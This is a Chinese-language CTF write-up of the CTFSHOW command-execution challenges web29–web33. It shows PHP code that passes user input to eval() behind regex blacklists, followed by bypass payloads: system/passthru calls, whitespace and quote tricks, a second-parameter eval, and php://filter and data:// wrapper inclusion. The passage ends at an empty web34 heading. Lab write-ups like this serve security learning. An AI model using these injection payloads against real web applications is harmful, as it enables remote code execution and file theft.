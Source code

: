 ## CTFSHOW - 命令执行

### web29

```php
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        eval($c);
    }
```

ban了"flag"这个字符利用匹配

```python
?c=system("tac fl*");
?c=system("tac fla''g.php");
?c=system("tac fla``g.php");
```



### web30

相比于上一题多ban了`php` , `system`

```
?c=passthru("tac fl*");
```



### web31

```php
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
        eval($c);
    }
```

又是多ban了几个东西

```python
#常规操作
?c=passthru("tac%09fla*");

?c=eval($_GET[a]);&a=system('tac flag.php');#这里只是过滤了c参数里面的内容，利用这个东西可以实现绕过
```

同时我发现有些空格的替代不能使用`${IFS}`等，这里我们得试一试

看了其他佬的东西：

```python
c=show_source(next(array_reverse(scandir(pos(localeconv())))));

localeconv()：返回包含本地化数字和货币格式信息的关联数组。这里主要是返回数组第一个"."
pos():输出数组第一个元素，不改变指针；
scandir();遍历目录，这里因为参数为"."所以遍历当前目录
array_reverse():元组倒置
next():将数组指针指向下一个，这里其实可以省略倒置和改变数组指针，直接利用[2]取出数组也可以
show_source():查看源码
```



### web32

```php
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){
        eval($c);
    }
```

这道题利用php伪协议

```python
?c=include$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
#?>的作用是作为绕过分号，作为语句的结束。原理是：php遇到定界符关闭标签会自动在末尾加上一个分号。简单来说，就是php文件中最后一句在?>前可以不写分号。
?c=include$_GET[1]?>&1=data://text/plain,<?php system("nl flag.php")?>
```

解码之后：

```
┌──(root㉿BX-legion)-[~]
└─# echo PD9waHANCg0KLyoNCiMgLSotIGNvZGluZzogdXRmLTggLSotDQojIEBBdXRob3I6IGgxeGENCiMgQERhdGU6ICAgMjAyMC0wOS0wNCAwMDo0OToxOQ0KIyBATGFzdCBNb2RpZmllZCBieTogICBoMXhhDQojIEBMYXN0IE1vZGlmaWVkIHRpbWU6IDIwMjAtMDktMDQgMDA6NDk6MjYNCiMgQGVtYWlsOiBoMXhhQGN0ZmVyLmNvbQ0KIyBAbGluazogaHR0cHM6Ly9jdGZlci5jb20NCg0KKi8NCg0KJGZsYWc9ImN0ZnNob3d7YjJmZjU1ZDEtMGViYi00NWIxLTllOWMtMTNkYmI2NjFmZGZmfSI7DQo |base64 -d

<?php
/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:49:19
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 00:49:26
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/
$flag="ctfshow{b2ff55d1-0ebb-45b1-9e9c-13dbb661fdff}";
base64: invalid input
```



### web33

```php
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"/i", $c)){
        eval($c);
    }
```

跟上一题类似但是不能使用`php://`协议，被ban了，但是可以使用`data://`

看了一下是还可以利用日志包含绕过！！！



### web34

